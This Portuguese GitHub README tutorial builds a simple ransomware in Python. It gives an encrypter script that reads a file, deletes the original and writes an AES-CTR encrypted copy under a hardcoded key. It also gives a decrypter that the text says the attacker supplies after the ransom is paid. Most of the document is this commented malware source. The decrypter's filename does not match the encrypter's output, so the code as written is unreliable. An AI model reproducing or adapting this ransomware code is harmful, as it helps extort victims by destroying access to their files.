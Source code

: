 # Criando-um-Ransomware-com-python

### Ferramentas nescessaria para criação deste ransomware

- Kali Linux
- vim

### Configuração Ransoware

No terminal do kali linux crie um arquivo que servira de exemplo para o ataque: vim dados_teste.txt
Dentro do aquivo dados_teste.txt adicione um dado como: "Dados importantes da minha empresa." 
Agora crie um comando em python para encriptografar o arquivo dados_teste.txt: vim encrypter.py

Alimente com esses dados:

comente o que cada linha faz nesse codigo python para cryptogarfar:

import os         # Importa o módulo 'os' para interagir com o sistema operacional.
import pyaes      # Importa a biblioteca 'pyaes' para operações de criptografia e descriptografia.

# Abrir o arquivo a ser criptografado
file_name = 'dados_teste.txt'                # Define o nome do arquivo a ser criptografado.
file = open(file_name, "rb")                 # Abre o arquivo em modo de leitura binária.
file_data = file.read()                      # Lê o conteúdo do arquivo e armazena em 'file_data'.
file.close()                                 # Fecha o arquivo.

# Remover o arquivo original
os.remove(file_name)                         # Remove o arquivo original do sistema.

# Chave de criptografia
key = b'testeransomwares'                     # Define a chave de criptografia.
aes = pyaes.AESModeOfOperationCTR(key)        # Cria um objeto AES para criptografia no modo CTR.

# Criptografar o arquivo
crypto_data = aes.encrypt(file_data)          # Criptografa os dados do arquivo.

# Salvar o arquivo criptografado
new_file = file_name + '.ransomwarattack'     # Define o nome do novo arquivo criptografado.
new_file = open(f'{new_file}', 'wb')          # Abre o novo arquivo em modo de escrita binária.
new_file.write(crypto_data)                   # Escreve os dados criptografados no novo arquivo.
new_file.close()                              # Fecha o novo arquivo.

Agora fazer um arquivo para desincreptar, que o atacante forneceria para quem sofreu o ataque mediante a pagamento do resgate: vim decrypter.py:

import os        # Importa o módulo 'os' para interagir com o sistema operacional.
import pyaes     # Importa a biblioteca 'pyaes' para operações de criptografia e descriptografia.

# Abrir o arquivo criptografado
file_name = 'teste.txt.ransomwarattack'        # Define o nome do arquivo criptografado.
file = open(file_name, 'rb')                   # Abre o arquivo em modo de leitura binária.
file_data = file.read()                        # Lê o conteúdo do arquivo e armazena em 'file_data'.
file.close()                                   # Fecha o arquivo.

# Chave para descriptografia
key = b'testeransomwares'                      # Define a chave de descriptografia.
aes = pyaes.AESModeOfOperationCTR(key)         # Cria um objeto AES para descriptografia no modo CTR.
decrypt_data = aes.decrypt(file_data)          # Descriptografa os dados do arquivo.

# Remover o arquivo criptografado
os.remove(file_name)                           # Remove o arquivo criptografado do sistema.

# Criar o arquivo descriptografado
new_file = 'dados_teste.txt'                   # Define o nome do novo arquivo descriptografado.
new_file = open(f'{new_file}', 'wb')           # Abre o novo arquivo em modo de escrita binária.
new_file.write(decrypt_data)                   # Escreve os dados descriptografados no novo arquivo.
new_file.close()                               # Fecha o novo arquivo.

![Dados_criptografado](https://github.com/user-attachments/assets/e6da0098-7422-4eb3-afc9-8f6a2c80c331)
![Dados_descriptografado](https://github.com/user-attachments/assets/8d874905-c80a-4870-9f73-31a55af87ec4)


